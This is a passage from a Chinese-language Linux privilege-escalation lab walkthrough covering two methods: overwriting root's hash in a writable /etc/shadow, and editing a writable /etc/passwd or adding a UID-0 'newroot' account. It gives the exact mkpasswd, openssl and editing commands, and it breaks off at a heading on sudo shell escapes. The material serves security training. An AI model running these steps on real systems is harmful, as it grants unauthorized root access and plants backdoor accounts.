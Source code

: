 现在，使用一个自己选择的密码来生成一个新的密码hash值:

```shell
mkpasswd -m sha-512 newpassword  #从上一小节中，我们已经知道root用户的密码hash值 使用的算法类型
```

编辑/etc/shadow 文件，并用刚刚生成的密码散列(hash)值 替换原始 root 用户的密码散列值，然后切换到root用户，使用自己设置的密码进行登录，得到root权限：

```shell
nano /etc/shadow
su root #新密码为：newpassword
```

![image-20221009224648889](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221009224648889.png)

![image-20221009225005386](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221009225005386.png)

## 弱文件权限提权-可写/etc/passwd

/etc/passwd 文件包含有关用户帐户的信息，通常只能由 root 用户写入。从历史上看，以前的/etc/passwd 文件会包含用户的密码哈希值，而且现在某些版本的 Linux 仍然允许在/etc/passwd文件中存储用户的密码哈希值

**Linux系统为了向后兼容，有如下特性：如果/etc/passwd中用户行的第二个字段包含密码哈希，它将优先于/etc/shadow中的哈希。**

使用" ls -l /etc/passwd " 查看/etc/passwd文件的权限分配情况（发现其他用户可读写/etc/passwd文件）：

![image-20221009225441685](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221009225441685.png)

使用一个自定义的密码重新生成一个新的密码hash值：

```ssh
openssl passwd 123456
```

编辑/etc/passwd 文件，并将刚才新生成的密码hash放置在 root 用户行的第一个和第二个冒号(:)之间(替换“ x”)，然后切换到 root 用户，使用新密码登录:

```shell
nano /etc/passwd
su root
#或者添加一个新的root用户条目（此处使用的hash值也是刚才生成的）：newroot:$1$.35ewmwH$HoI6txtQIjK0XEl7weECl.:0:0:root:/root:/bin/bash
#然后使用新增的root用户身份进行登录
```

![image-20221009231029644](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221009231029644.png)

![image-20221009231138876](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221009231138876.png)

![image-20221009231316519](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221009231316519.png)

**答题卡**

![image-20221009231422837](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221009231422837.png)

## Sudo提权-Shell 转义序列
